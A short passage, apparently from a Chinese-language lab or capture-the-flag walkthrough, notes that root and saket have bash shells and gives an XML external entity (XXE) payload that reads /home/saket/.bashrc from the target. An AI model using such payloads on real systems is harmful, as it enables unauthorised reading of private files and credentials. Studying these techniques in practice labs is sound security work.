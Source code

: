 通过搜索/bin/bash，可以确定哪些账号可以通过ssh登录，如下，可以确定root和saket。

![](../images/pics/打靶/21.jpg)





### php封装器读取bashrc

尝试读取了很多文件，但是只用/home/saket/.bashrc比较有用。

这里直接读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'file:///home/saket/.bashrc'>]>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>&xxetest;</email>
	<password>a</password>
</root>
```
